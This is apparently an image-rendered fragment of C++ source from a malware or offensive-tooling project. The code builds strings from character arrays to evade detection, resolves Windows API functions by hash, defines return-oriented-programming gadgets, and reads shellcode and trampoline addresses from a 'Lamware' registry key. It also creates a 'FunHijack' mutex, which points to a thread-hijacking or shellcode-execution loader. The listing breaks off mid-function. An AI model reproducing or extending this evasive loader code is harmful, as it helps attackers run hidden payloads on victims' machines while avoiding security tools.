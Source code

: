 ```cpp
    LONG result;
    HKEY hKey;
    WCHAR regKey[] = { 'S', 'O', 'F', 'T', 'W', 'A', 'R', 'E', '\\', 'L', 'a', 'm','w','a', 'r', 'e', '\0' };
    WCHAR trpValue[] = { 'T', 'r', 'a', 'm', 'p', 'o', 'l', 'i', 'n', 'e', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shValue[] = { 'S', 'C', 'o', 'd', 'e', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shsValue[] = { 'S', 'C', 'o', 'd', 'e', 'S', 'i', 'z', 'e', '\0' };
    WCHAR tiValue[] = { 'T', 'h', 'r', 'e', 'a', 'd', 'I', 'd', '\0' };

    WCHAR mutexName[] = { 'F', 'u', 'n', 'H', 'i', 'j', 'a', 'c', 'k', '\0' };

    LPCTSTR value;

    // DLL to load via LoadLibraryA
    WCHAR msvcrtdllName[] = { 'm', 's', 'v', 'c', 'r', 't', '.', 'd', 'l', 'l', '\0' };
    WCHAR advapi32dllName[] = { 'a', 'd', 'v', 'a', 'p', 'i', '3', '2', '.', 'd', 'l', 'l', '\0' };

    // Symbols from MSVCRT
    CHAR memcpyName[] = { 'm', 'e', 'm', 'c', 'p', 'y', '\0' };
    CHAR memcmpName[] = { 'm', 'e', 'm', 'c', 'm', 'p', '\0' };
    CHAR memsetName[] = { 'm', 'e', 'm', 's', 'e', 't', '\0' };
#ifdef _DEBUG
    CHAR printfName[] = { 'p', 'r', 'i', 'n', 't', 'f', '\0' };
#endif

    // Gadgets
    UCHAR POP_RAX_RET[] = {0x58, 0xc3};
    UCHAR POP_RCX_RET[] = {0x59, 0xc3};
    UCHAR POP_RDX_RET[] = {0x5A, 0xc3};
    UCHAR POP_R8__RET[] = {0x41, 0x58, 0xc3};
    UCHAR POP_RSP_RET[] = {0x5C, 0xc3};
    UCHAR RET[] = {0xc3};

    // ntdll
    ntdll = (HMODULE)GetModule(NTDLL_HASH);

    // kernel32.dll exports
    kernel32dll = (HMODULE)GetModule(KERNEL32DLL_HASH);
    LoadLibraryFunc = (LoadLibraryType)GetSymbolAddress(kernel32dll, (LPCSTR)LoadLibraryName);
    VirtualAllocFunc = (VirtualAllocType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualAllocName);
    VirtualProtectFunc = (VirtualProtectType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualProtectName);

    SleepFunc = (SleepType)GetSymbolAddress(kernel32dll, (LPCSTR)SleepName);
    VirtualQueryFunc = (VirtualQueryType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualQueryName);
#ifdef FREE
    VirtualFreeFunc = (VirtualFreeType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualFreeName);
#endif

    CreateThreadFunc = (CreateThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)CreateThreadName);
    WaitForSingleObjectFunc = (WaitForSingleObjectType)GetSymbolAddress(kernel32dll, (LPCSTR)WaitForSingleObjectName);
    GetCurrentThreadFunc = (GetCurrentThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)GetCurrentThreadName);
    CreateMutexFunc = (CreateMutexType)GetSymbolAddress(kernel32dll, (LPCSTR)CreateMutexName);
    ReleaseMutexFunc = (ReleaseMutexType)GetSymbolAddress(kernel32dll, (LPCSTR)ReleaseMutexName);
    CloseHandleFunc = (CloseHandleType)GetSymbolAddress(kernel32dll, (LPCSTR)CloseHandleName);
    ExitThreadFunc = (ExitThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)ExitThreadName);


    HANDLE hMutex = CreateMutexFunc(NULL, TRUE, (LPCWSTR)mutexName);
    if (NULL == hMutex) {
```